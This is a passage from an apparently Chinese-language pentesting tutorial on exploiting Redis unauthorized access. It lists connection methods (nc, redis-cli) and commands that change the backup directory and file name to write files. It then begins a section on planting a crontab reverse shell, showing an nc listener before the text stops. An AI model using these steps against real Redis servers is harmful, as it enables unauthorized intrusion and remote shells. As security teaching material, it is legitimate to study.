 

5.连接redis的方式
```bash
# nc
nc 1.1.1.1.10 6379 -vv    

# telent 

#或redis-cli连接
redis-cli -h 192.168.0.100
```



常用命令
```bash
# 查看里面的key和其对应的值
keys *  
get key


# 获取备份路径
config get dir

# 获取备份文件名
config get dbfilename
save  # 保存数据到备份路径(dir+dbfilename)

# 设置备份路径
config set dir /root/ # 可以移动到root，然后访问（如果能访问，就是root权限 -->可用来判断权限）

# 设置备份文件名
config set dbfilename filename

# 设置键值对
set keyname value
# 获取键值对
get keyname

# 持久化(保存到磁盘)
save
```


## 测试
#### 一、写文件(利用未授权访问)
测试环境：centos

###### 1.crontab计划任务反弹shell
>root权限运行redis

1.本机监听端口
```bash
nc -lvvp 4444
```

